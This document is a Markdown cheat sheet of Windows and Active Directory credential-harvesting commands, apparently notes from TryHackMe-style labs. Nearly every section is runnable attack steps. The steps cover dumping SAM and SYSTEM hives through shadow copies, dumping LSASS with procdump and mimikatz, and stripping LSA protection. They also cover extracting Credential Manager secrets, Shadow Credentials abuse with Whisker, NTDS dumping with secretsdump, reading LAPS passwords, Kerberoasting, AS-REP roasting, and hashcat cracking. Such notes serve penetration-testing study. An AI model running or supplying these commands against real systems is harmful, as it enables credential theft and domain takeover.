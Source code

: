 # Credential Harvesting

* Accounts details (usernames and passwords)
* Hashes that include NTLM hashes, etc.
* Authentication Tickets: Tickets Granting Ticket (TGT), Ticket Granting Server (TGS)
* Any information that helps login into a systemÂ (private keys, etc.)

[https://github.com/SnaffCon/Snaffler](https://github.com/SnaffCon/Snaffler)

[https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)

[https://www.hackingarticles.in/post-exploitation-on-saved-password-with-lazagne/](https://www.hackingarticles.in/post-exploitation-on-saved-password-with-lazagne/)

## Credential Access

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Clear-text files
C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
c:\Users\user> reg query HKLM /f password /t REG_SZ /s
# OR
C:\Users\user> reg query HKCU /f password /t REG_SZ /s
```
{% endcode %}

## Local Windows Credentials

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Keystrokes
# Security Account Manager (SAM)
# Metasploit's HashDump
meterpreter > hashdump

# Volume Shadow Copy Service -> with Administrator privileges
https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service
C:\Users\Administrator>wmic shadowcopy call create Volume='C:\'
C:\Users\Administrator>vssadmin list shadows
# The output shows that we have successfully created a shadow copy volume of (C:) with the following path: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
# Copy SYSTEM and SAM and transfer them to your attacking machine
C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system

# Registry Hives
C:\Users\Administrator\Desktop>reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
C:\Users\Administrator\Desktop>reg save HKLM\system C:\users\Administrator\Desktop\system-reg
user@machine:~# python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
```
{% endcode %}

## Local Security Authority Subsystem Service (LSASS)

{% code overflow="wrap" fullWidth="true" %}
```powershell
https://attack.mitre.org/techniques/T1003/001/
# GUI -> in case it fails, we have to fix the registry value that protects LSASS
Task Manager > Details tab > lsass.exe > "Create dump file"

# Sysinternals Suite
c:\>c:\Tools\SysinternalsSuite\procdump.exe -accepteula -ma lsass.exe c:\Tools\Mimikatz\lsass_dump

# MimiKatz
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords

# Protected LSASS
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
# If it shows this error, we can import mimdrv.sys driver to disable the LSA protection
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # sekurlsa::logonpasswords
```
{% endcode %}

## Windows Credential Manager

{% code overflow="wrap" fullWidth="true" %}
```powershell
# List the current windows vaults
C:\Users\Administrator>vaultcmd /list
# Check if stored credentials -> if not, do not continue
C:\Users\Administrator>VaultCmd /listproperties:"Web Credentials"
# list more information about the stored credential
C:\Users\Administrator>VaultCmd /listcreds:"Web Credentials"
https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1
PS C:\Users\Administrator> Import-Module .\Get-WebCredentials.ps1
PS C:\Users\Administrator> Get-WebCredentials

# RunAs
cmdkey /list
runas /savecred /user:THM.red\thm-local cmd.exe

# Mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::credman
```
{% endcode %}

## Shadow Credentials

<pre class="language-powershell" data-overflow="wrap" data-full-width="true"><code class="lang-powershell">https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse/shadow-credentials
<strong>
</strong><strong>########## ENUMERATION WITH POWERVIEW
</strong>. .\PowerView.ps1
# Enumerate key user privileges for the user myuser
Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "myuser" }  | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights 
# If we see a user has GenericWrite over a more privileged user, we could update msDS-KeyCredentialLink with a certificate

########## EXPLOITATION
.\Whisker.exe add /target:Administrator # Administrator or any other more privileged user we can "modify" with our current user
# It will give us the Rubeus command to use and we could use PTH for the hash we obtained from Rubeus
</code></pre>

## Domain Controller

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Local Dumping (No Credentials) -> needs Administrator/AD admin account on the domain
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local

# Remote Dumping (With Credentials)
secretsdump.py -just-dc THM.red/<AD_Admin_User>@10.10.190.174
secretsdump.py -just-dc-ntlm THM.red/<AD_Admin_User>@10.10.190.174
hashcat -m 1000 -a 0 /path/to/ntlm_hashes.txt /path/to/wordlist/such/as/rockyou.txt
```
{% endcode %}

## Local Administrator Password Solution (LAPS)

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Group Policy Preferences (GPP)
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN
https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

# Enumerate for LAPS -> find AdmPwd.dll file and find the user with privs to read LAPS
dir "C:\Program Files\LAPS\CSE"
PS> Get-Command *AdmPwd* #  available commands to use for AdmPwd cmdlets
# Find which AD organizational unit (OU) has the "All extended rights" attribute that deals with LAPS
Find-AdmPwdExtendedRights -Identity * # then replace * with group names from the output and find one with exented rights to LAPS 
net groups "LAPS Reader" # example group from the command output above
net user "My user" # same, output from above

# Getting the Password -> find the specific machine / target computer which can get LAPS password
https://github.com/leoloobeek/LAPSToolkit
PS C:\> Get-AdmPwdPassword -ComputerName PC01
```
{% endcode %}

## Other attacks

{% code overflow="wrap" fullWidth="true" %}
```powershell
https://en.wikipedia.org/wiki/Kerberos_(protocol)

# Kerberoasting -> needs SPN account
GetUserSPNs.py -dc-ip 10.10.190.174 THM.red/thm # to find SPN user
GetUserSPNs.py -dc-ip 10.10.190.174 THM.red/thm -request-user svc-user # Requesting a TGS Ticket as SPN Account 
hashcat -a 0 -m 13100 spn.hash /usr/share/wordlists/rockyou.txt

# AS-REP Roasting -> needs username list gathered previously
GetNPUsers.py -dc-ip 10.10.190.174 thm.red/ -usersfile /tmp/users.txt

# SMB Relay Attack
# LLMNR/NBNS Poisoning
```
{% endcode %}
